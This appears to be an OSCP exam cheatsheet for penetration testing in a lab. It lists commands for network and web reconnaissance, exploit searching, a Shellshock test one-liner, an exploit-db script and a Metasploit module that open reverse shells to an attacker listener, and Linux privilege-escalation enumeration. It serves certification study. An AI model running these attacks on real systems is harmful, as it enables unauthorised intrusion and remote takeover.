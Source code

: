 # OSCP
OSCP Exam Cheatsheet.

# Index

- [Introduction](#introduction) 

# Content

### PREPARATION
Kali Wordlists: `/usr/share/wordlists`  
SecLists: https://github.com/danielmiessler/SecLists


### RECON
Scan network range for valid IPs/hostnames:  
```bash
i="0"
while [ $i -lt "255" ]
do nslookup 10.11.1.$i 10.11.1.220 | grep -v "NXDOMAIN" | grep name
	i=$[ $i+1 ]
done
```

Nmap port scans:
(NOTE: Heavy scanning may result in ports being filtered/closed - wait <15 minutes to be unbanned)
```bash
$ nmap 10.11.1.71 --top-ports 20 --open	# Top 20 TCP ports scan on initial box
$ nmap 10.11.1.71 -p- -sV		# Complete TCP port scan + service banner grab on each box:
```

Services enum:
* SSH (22): Fingerprint server/OS, SSH key
* HTTP (80|8080): Curl for HTTP header
* Telnet (23):
* SMTP (25):
* Service (port):

For each service, check available Nmap scripts:
```bash
$ ls -l /usr/share/nmap/scripts/*ssh*
```

Summarise your recon findings on the target:
* IP / DNS?
* OS?
* Ports (TCP / UDP)?
* Services / Applications?
* Which is the best entry point so far?
* Prioritised list of attack vectors:
	* Explore the web application.
	* Search for vulnerabilities in the known services & applications.
	* Brute force SSH with common & weak credentials.


### DEEPER RECON (SERVICE-LEVEL) - WEBAPP EXAMPLE

Scripts:
```bash
$ curl -i -L 10.11.1.71 						  # Follow re-directs
$ curl 10.11.1.71 -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//' # Internal/external links
$ gobuster -u http://10.11.1.71/ \					  # Directory brute-force
	   -w /usr/share/seclists/Discovery/Web_Content/common.txt \
	   -s '200,204,301,302,307,403,500' -e
$ gobuster -u http://10.11.1.71/cgi-bin/ \				  # 2nd directory brute-force
	   -w /usr/share/seclists/Discovery/Web_Content/cgis.txt \
	   -s '200,204,403,500' -e
```

Other things to check:
* robots.txt
* social media
* source code (if app is based on open-source code)

Re-evaluate attack surface:
* Any new findings to add to our list of attack vectors?

### FINDING AN EXPLOIT TO USE

Nikto webapp scanner:
```bash
$ nikto -host 10.11.1.71
```

Searchsploit (exploit-db):
```bash
# BASE EXAMPLE
$ searchsploit [options] [search_term1] [search_term2] . . . [search_termN]

# APACHE 2.4.8 EXAMPLE
$ searchsploit apache 2.4 | grep -v '/dos/'
$ searchsploit apache 2.x | grep -v '/dos/'

# APACHE | CGI
$ searchsploit apache cgi | grep -v '/dos/'

# WORKING EXPLOIT CODE FOUND IN:
/usr/share/exploitdb/platforms/linux/remote/34900.py
```

Nmap:
```bash
$ ls -l /usr/share/nmap/scripts/*shellshock*
```

Other areas to find exploit code:
* Google Shellshock POC
* Google one-liners from github

If no good attack vectors / exploit can be found, try a different or more comprehensive wordlist for subdirectory brute-forcing or use a webapp scanner to poke harder at the system.

### USING EXPLOIT CODE

METHOD #1: MANUAL
```bash
env X='() { :; }; echo "CVE-2014-6271 vulnerable"' bash -c id	# Src: Github one-liner
```

METHOD #2: EXPLOIT-DB
```bash
$ cp /usr/share/exploitdb/platforms/linux/remote/34900.py alpha.py
$ python alpha.py payload=reverse rhost=10.11.1.71 lhost=10.11.0.31 lport=4444 pages=/cgi-bin/admin.cgi
10.11.1.71>
```

METHOD #3: METASPLOIT (NOT PREFERRED)
```bash
$ systemctl start postgresql
$ msfdb init
$ msfdb start
$ msfconsole
msf > search shellshock
msf > use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf exploit(apache_mod_cgi_bash_env_exec) > show options
. . .
. . .
msf exploit(...) > set RHOST 10.11.1.71
msf exploit(...) > set TARGETURI /cgi-bin/admin.cgi
msf exploit(...) > set LHOST 10.11.0.4
msf exploit(...) > set LPORT 443
msf exploit(...) > show options
. . .
. . .
msf exploit(...) > run
[*] Started reverse TCP handler on 10.11.0.42:443
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Transmitting intermediate stager...(106 bytes)
[*] Sending stage (826872 bytes) to 10.11.1.71
[*] Meterpreter session 1 opened (10.11.0.42:443 -> 10.11.1.71:34930) at 2018-12-18 13:53:55 +1100
meterpreter >
```

You will now have reverse shell.

### PRIVILEGE ESCALATION - ENUM

Get a proper shell:


Linux privesc:
* https://github.com/rebootuser/LinEnum (automated scan)
* https://tools.kali.org/vulnerability-analysis/unix-privesc-check (Kali tool)
* https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/  

Windows privesc:
* https://github.com/azmatt/windowsEnum (automated scan)
* https://github.com/netbiosX/Checklists/blob/master/Windows-Privilege-Escalation.md
* http://www.fuzzysecurity.com/tutorials/16.html

Questions to ask:
* What user files do we have access to?
* What configurations do we have access to?
* Any incorrect file permissions?
* What programs are custom? Any SUID? SGID?
* What's scheduled to run?
* Any hardcoded credentials? Where are credentials kept?

Privesc Enum:
```bash
# OS? Version? Architecture?
$ cat /etc/*-release
$ uname -i
$ lsb_release -a (Debian)
 
# Who are we? Where are we? What are our sudo privileges?
$ id
$ pwd
$ sudo -l
 
# Other users? Which ones have a valid shell?
$ cat /etc/passwd
$ grep -vE "nologin|false" /etc/passwd
 
# Services running on the box? Network services running?
ps aux
netstat -antup
 
# Whats installed? Kernel?
dpkg -l (Debian)
rpm -qa (CentOS / openSUSE)
uname -a
```

Summarise possible attack vectors / vulnerable services to escalate privileges.

### PRIVILEGE ESCALATION - FINDING EXPLOIT

Use information gathered from enumeration stage to find an exploit for vectors / vulnerable services in your list.









